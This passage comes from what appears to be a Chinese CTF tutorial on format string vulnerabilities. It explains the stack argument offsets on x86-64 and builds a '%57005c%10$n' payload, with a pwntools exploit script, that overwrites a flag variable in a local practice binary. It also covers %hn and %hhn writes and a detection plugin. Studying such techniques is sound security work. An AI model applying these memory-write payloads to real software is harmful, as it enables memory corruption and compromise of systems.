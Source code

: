 本题我们想覆盖flag的值为0xdead，并且题目已经告诉我们flag在栈上的地址

首先我们已经可以明确 **\[num\] = 0xdead = 57005**；

通过在printf下断点,然后输入8个a，在gdb中：

![image-20211230220135061](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-13ef7d0ec2e486ed1a49829aef258dad51f96495.png)

我们可以发现我们输入的字符串位于栈上第三位，**因为64位程序是通过6个寄存器和栈共同传参的，并且由于格式化字符串起始地址作为printf函数的第一个参数，所以它是存放在rdi寄存器中，剩下的RSI、RDX、RCX、R8、R9这5个寄存器会接着存放其他参数，其中RSI存放着格式化字符串的第一个参数的值。所以从栈顶第一位开始是格式化字符串中的第6个参数**， 所以本题中输入字符串位于格式化字符串的第 5 + 3 = 8 个参数。

所以 **\[覆盖的地址\]** 至少位于格式化字符的第8个参数,即 **\[order\] &gt;= 8**,并且因为payload前半部分为 **%57005c%\[order\]$n(\[order\]&gt;=8)** ,长度至少为11即超过8但小于16，所以 **\[order\] 应该为 10**，故**payload = %57005c%10$n + \[填充字符\] + \[覆盖的地址\]** ,很明显填充字符的个数为 16-12 = 4，这样我们就可以写出完整的Exp了：

```python
from pwn import *
context.log_level = 'debug'
p = process('./fmt_test4')

flag_addr = int(p.recvline().strip(), 16)       #接收flag地址
print('flag_addr: ' + hex(flag_addr))
payload = '%57005c%10$naaaa'+ p64(flag_addr)
p.sendline(payload)

p.interactive()
```

执行Exp

我们就能修改flag为0xdead了：

![image-20211230222659695](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f05c5beb23046103e45cc9847356e6fa52311903.png)

![image-20211230222744232](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f7406d1849851dcb79541f87535455b33a294848.png)

除了%n可以覆盖四字节以为，我们还可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。具体演示看下面的例题。

### 漏洞检测：

可以下载一款IDA插件 - **LazyIDA** 来检测程序是否存在格式化字符串漏洞，对于一般的格式化字符串漏洞都能检测出来。

下载地址:

```php
https://github.com/L4ys/LazyIDA
```

### 真题演示：

#### 例一 PWN梦空间-snow

题目来自2021春秋杯秋季赛

![image-20220130163323283](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e554b44a693df54af5b4845209938c9f15ec8d67.png)
